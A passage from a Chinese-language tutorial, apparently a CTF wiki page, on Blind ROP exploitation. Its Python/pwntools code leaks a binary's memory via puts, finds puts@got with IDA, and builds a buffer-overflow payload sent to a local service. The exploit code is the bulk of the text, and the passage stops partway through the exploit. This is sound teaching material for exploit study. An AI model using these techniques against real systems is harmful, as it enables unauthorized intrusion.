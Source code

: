```python
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_plt(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
addr = 0x400000
result = ""
while addr < 0x401000:
    print hex(addr)
    data = leak(length, rdi_ret, puts_plt, addr, stop_gadget)
    if data is None:
        continue
    else:
        result += data
    addr += len(data)
with open('code', 'wb') as f:
    f.write(result)
```

最后，我们将泄露的内容写到文件里。需要注意的是如果泄露出来的是“”,那说明我们遇到了'\x00'，因为puts是输出字符串，字符串是以'\x00'为终止符的。之后利用ida打开binary模式，首先在edit->segments->rebase program 将程序的基地址改为0x400000，然后找到偏移0x560处，如下

```asm
seg000:0000000000400560                 db 0FFh
seg000:0000000000400561                 db  25h ; %
seg000:0000000000400562                 db 0B2h ; 
seg000:0000000000400563                 db  0Ah
seg000:0000000000400564                 db  20h
seg000:0000000000400565                 db    0
```

然后按下c,将此处的数据转换为汇编指令，如下

```asm
seg000:0000000000400560 ; ---------------------------------------------------------------------------
seg000:0000000000400560                 jmp     qword ptr cs:601018h
seg000:0000000000400566 ; ---------------------------------------------------------------------------
seg000:0000000000400566                 push    0
seg000:000000000040056B                 jmp     loc_400550
seg000:000000000040056B ; ---------------------------------------------------------------------------
```

这说明，puts@got的地址为0x601018。

#### 程序利用

```python
##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4006b6
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_addr(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
##leakfunction(length, rdi_ret, puts_plt, stop_gadget)
puts_got = 0x601018

sh = remote('127.0.0.1', 9999)
sh.recvuntil('password?\n')
payload = 'a' * length + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(
    stop_gadget)
sh.sendline(payload)
data = sh.recvuntil('\nWelCome', drop=True)
```